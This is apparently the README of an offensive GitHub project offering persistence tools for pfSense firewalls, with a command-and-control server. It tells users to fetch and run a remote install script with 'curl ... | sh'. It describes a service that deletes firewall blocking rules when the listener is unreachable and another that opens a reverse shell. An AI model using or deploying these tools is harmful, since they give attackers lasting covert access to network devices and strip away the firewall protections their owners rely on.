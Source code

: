 # pfSensePersistence
A collection of pfsense persistence tools

## Install
Run install.sh to install Breakout and Service Shell. Set staging IP(machine serving files) and C2 IP(server to connect back to). Assumed to be serving files with ```python -m http.server```
Recommend to pipe directly to shell, ie ```curl -s <IP>:8000/install.sh | sh```

## Breakout
Service that will check if it can connect back to the listener periodically. If it can't, it will delete any filter rules that block or reject traffic

## Service Shell
Basic service to make a reverse shell